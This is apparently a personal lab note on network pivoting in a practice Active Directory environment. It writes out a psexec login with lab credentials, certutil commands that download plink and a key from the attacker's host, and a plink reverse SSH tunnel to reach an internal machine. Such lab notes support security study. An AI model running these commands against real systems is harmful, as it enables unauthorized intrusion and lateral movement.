 ```yaml
---
category: Uncategorized
tags: []
---
```

Kali => Punisher => Spiderman

| Kali | Punisher | Spiderman | 
| --- | --- | --- |
| 192.168.111.133 | 192.168.111.138 / 10.10.10.129 | 10.10.10.128

```bash - kali
psexec.py marvel.local/fcastle:Password1@192.168.111.138
```

```command prompt - target
cd C:\Users\fcastle\Documents
```

```command prompt - windows
certutil -urlcache -split -f http://192.168.111.133/plink.exe
```

Create ssh keygen:

[[2a._SSH Tun(Linux)#Reverse Connections]]

Install putty-tools and convert they reverse file.

```bash - kali
sudo apt install putty-tools
```

```bash - kali
puttygen reverse -o reverse_key.ppk
```

Transfer reverse_key to vic:

```command prompt - windows
certutil -urlcache -split -f http://192.168.111.133/reverse_key.ppk
```

```command prompt - windows
cmd.exe /c echo y | .\plink.exe -R 8000:10.10.10.128:80 kali@192.168.111.133 -i reverse_key.ppk -N
```

![[Pasted image 20220116114712.png]]

![[Pasted image 20220116114732.png]]

